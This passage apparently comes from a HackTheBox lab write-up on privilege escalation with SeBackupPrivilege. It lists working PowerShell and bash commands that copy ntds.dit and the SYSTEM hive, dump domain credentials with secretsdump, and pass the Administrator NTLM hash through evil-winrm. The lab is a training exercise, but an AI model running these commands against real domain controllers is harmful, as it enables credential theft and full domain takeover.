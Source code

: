 In order to emulate the backup software, we need to upload two DLLs found [here](https://github.com/giuliano108/SeBackupPrivilege), import them, and use this to access the shadow copy back up.

```powershell
> upload SeBackupPrivilegeCmdLets.dll
> upload SeBackupPrivilegeUtils.dll
> Import-Module .\SeBackupPrivilegeCmdLets.dll
> Import-Module .\SeBackupPrivilegeUtils.dll
```

Next, we'll grab the `ntds.dit` database file from the shadow copy, then dump the SYSTEM hive.

```powershell
> Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite
> reg save HKLM\SYSTEM c:\temp\system.hive
```

Finally, we will download the two files, the `ntds.dit` and `system.hive` files, to our local box, where we can dump credentials.

![](/assets/img/posts/htb/07-2020-5/downloads.png)

Back on our box, we'll use the `secretsdump.py` command from Impacket with the SYSTEM hive and `ntds.dit` file as the parameters.

```bash
$ secretsdump.py -system system.hive -ntds ntds.dit LOCAL > secretsdump.txt
```

From this, we receive a lot of information, but most importantly, we receive the Administrator NTLM hash. Using the same pass-the-hash attack from earlier, we should be able to remotely access the box again, now as the admin.

```bash
$ evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192
```

